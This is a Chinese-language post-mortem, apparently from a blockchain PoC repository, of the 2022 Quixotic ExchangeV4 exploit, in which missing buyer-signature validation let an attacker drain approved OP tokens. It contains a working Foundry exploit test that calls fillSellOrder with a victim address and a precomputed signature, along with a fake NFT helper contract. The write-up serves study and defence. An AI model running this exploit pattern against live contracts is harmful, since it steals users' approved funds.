








# Quixotic@signature@validation

## 事件背景

Quixotic的交易所合约ExchangeV4存在漏洞，黑客可以获得任何用户授权到合约的金额，因为它只检查了买单，而没有检查卖单。目前交易所合约已被紧急关闭。

- 时间：2022.07.01
- 损失金额：$100k

## 交易

- 攻击事件hash：[0x5dc519726e1236eb846271f6699e03cdd1a8fd593a2900c71cd2aabbdb7c92e6](https://optimistic.etherscan.io/tx/0x5dc519726e1236eb846271f6699e03cdd1a8fd593a2900c71cd2aabbdb7c92e6)
- 发起攻击的黑客EOA：[0x0a0805082ea0fc8bfdcc6218a986efda6704efe5](https://optimistic.etherscan.io/address/0x0a0805082ea0fc8bfdcc6218a986efda6704efe5)
- 漏洞合约地址：[0x065e8a87b8f11aed6facf9447abe5e8c5d7502b6](https://optimistic.etherscan.io/address/0x065e8a87b8f11aed6facf9447abe5e8c5d7502b6#code)

## 资金流向



## 攻击过程



## 攻击详细分析

发生漏洞的是下面的这个方法（省略了无关紧要的代码），这是一个交易的函数，它的用意是：检查交易是否可以成功，然后用一个卖家的卖单和一个买家的买单进行匹配，然后成交这比交易。但是分析代码，我们发现这个方法只检查了卖单的有效性`_validateSellerSignature(sellOrder, signature)`，而没检查买单是否有效，也就是说买家有没有签名交易并没有做检查。

由于没有对买单的交易做检查，那么黑客可以随便创建一个没价值的代币卖单，然后找受害者，将其地址作为买单，这样受害者没有签名买单的情况下，就可以转移受害者的资产，当然前提是受害者之前approve给此合约（这样合约才能`transferFrom()`转移走受害者的资产给黑客）。

```solidity
	function fillSellOrder(....) external payable whenNotPaused nonReentrant {
        // If the payment ERC20 is the zero address, we check that enough native ETH has been sent
        // with the transaction. Otherwise, we use the supplied ERC20 payment token.
        if (paymentERC20 == address(0)) {
            require(msg.value >= price, "Transaction doesn't have the required ETH amount.");
        } else {
            _checkValidERC20Payment(buyer, price, paymentERC20);
        }

        SellOrder memory sellOrder = SellOrder(....);

        // Make sure the order is not cancelled
        require(
            cancellationRegistry.getSellOrderCancellationBlockNumber(seller, contractAddress, tokenId) < createdAtBlockNumber,
            "This order has been cancelled."
        );

        // Check signature
        require(_validateSellerSignature(sellOrder, signature), "Signature is not valid for SellOrder.");
		......
        _fillSellOrder(sellOrder, buyer);
    }
```

我们追踪一下此笔交易的整个流程

1.`_checkValidERC20Payment(buyer, price, paymentERC20)`：查看这个ERC20交易代币是否被approve授权过，并且买单有足够的钱，然后此交易所合约有足够的allowance



2.`cancellationRegistry.getSellOrderCancellationBlockNumber(seller, contractAddress, tokenId) < createdAtBlockNumber`：检查这个卖单是否被取消了

3.`_validateSellerSignature(sellOrder, signature)`：检查卖单是否有效，用ECDSA来检查签名的有效性。



4.`_fillSellOrder(sellOrder, buyer)`：进行交易，真正的关键转账是`_sendERC20PaymentsWithRoyalties()`，他会从买家发送两笔钱到买单中，一个给`_makerWallet`也就是合约的项目方地址，算是手续费，另外一个给到黑客`seller`，然后获利离场，受害者则在`_transferNFT()`中得到黑客没用的NFT



在区块链浏览器查看黑客的EOA账户，我们可以发现，黑客使用同样的手法重复的进行攻击



追溯到第一笔合约，我们发现部署了一个合约，这个合约地址将会被作为`fillSellOrder()`的contractAddress参数，产生没有价值的NFT来创建卖单



对这个合约进行反编译，我们得以验证此合约就是用于辅助攻击而创建的产生没价值NFT的合约



## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "../interface.sol";
import "./NFTContract.sol";

contract Attacker is Test {

    NFTContract public nftHelper;
    IQuixotic public quixotic = IQuixotic(address(0x065e8A87b8F11aED6fAcf9447aBe5E8C5D7502b6));
    IERC20 public op = IERC20(0x4200000000000000000000000000000000000042);

    address public attacker = 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf;
    address public victim = 0x4D9618239044A2aB2581f0Cc954D28873AFA4D7B;

     function setUp() public {
        vm.createSelectFork("optimism", 13_591_382);
        nftHelper = new NFTContract();

        vm.label(address(nftHelper), "nftHelper");
        vm.label(address(quixotic), "quixotic");
        vm.label(address(op), "op");
    }

    function test_Exploit() public {

        emit log_named_uint("[Before] attacker OP Balance:", op.balanceOf(attacker));
        vm.startBroadcast(attacker);
        uint256 victimBalance = op.balanceOf(victim);

        quixotic.fillSellOrder(
            address(attacker), // seller
            address(nftHelper), // contractAddress
            uint256(1), // tokenId
            uint256(1), // startTime
            uint256(9999999999999999999999999999999999999999), // expiration
            uint256(victimBalance), // price, 黑客需要知道受害者拥有多少op，全部取走
            uint256(1), // quantity
            uint256(1), // createdAtBlockNumber
            address(0x4200000000000000000000000000000000000042), // paymentERC20
            // 这个签名需要到链下进行，计算过程放到了calSignature.sol中
            hex"ed60c44be131f7252ba5b53a3a56ab340a5231c122f454e37fed4302a4ae5568191eee46f491eefd3c0aeb895f9045ded4c55194e204647a78528e34085b9ef81b", // signature
            address(victim) // buyer，受害者
        );

        vm.stopBroadcast();

        emit log_named_uint("[after] attacker OP Balance:", op.balanceOf(attacker));
    }

   
}
```

```solidity
pragma solidity ^0.8.10;

contract NFTContract {
    function supportsInterface(bytes4 x) public returns(bool){
        if(x == 0x01ffc9a7){
            return true;
        }else if(x == 0xffffffff){
            return false;
        }else if(x == 0x80ac58cd){
            return false;
        }else if(x == 0xd9b67a26){
            return true;
        }
    }

    function isApprovedForAll(address, address) public returns(bool){
        return true;
    }

    function transferFrom(address, address, uint256) public returns(bool){
        return true;
    }
    
    function safeTransferFrom(address, address, uint256, uint256, bytes memory) public returns(bool){
        return true;
    }
}
```

## 建议

关键方法一定要对交易进行充分的检验！这里就是缺少了对买家的检验，导致用户平白无故成了买家


